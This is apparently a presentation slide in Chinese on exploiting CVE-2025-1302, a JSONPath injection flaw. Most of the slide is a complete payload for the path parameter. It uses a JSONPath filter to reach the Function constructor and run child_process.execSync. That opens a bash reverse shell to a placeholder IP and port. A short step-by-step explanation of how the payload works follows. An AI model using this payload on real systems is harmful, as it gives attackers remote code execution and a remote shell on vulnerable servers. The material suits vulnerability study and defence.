

CVE-2025-1302
漏洞利用

将 path 参数构造如下：
$..[?(p="console.log(this.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/<ip>/<port> 0>&1\"').toString())";ddd=''[['constructor']][['constructor']](p);ddd();)]
其中$..[?()]为JSONPath语法，匹配根元素下所有内容，[?()]中为过滤条件。
JS语句内容为定义 p 为调用方法执行连接远程主机命令（即反弹shell）的字符串，然后通过构造函数生成函数（ddd），最后调用该方法执行命令。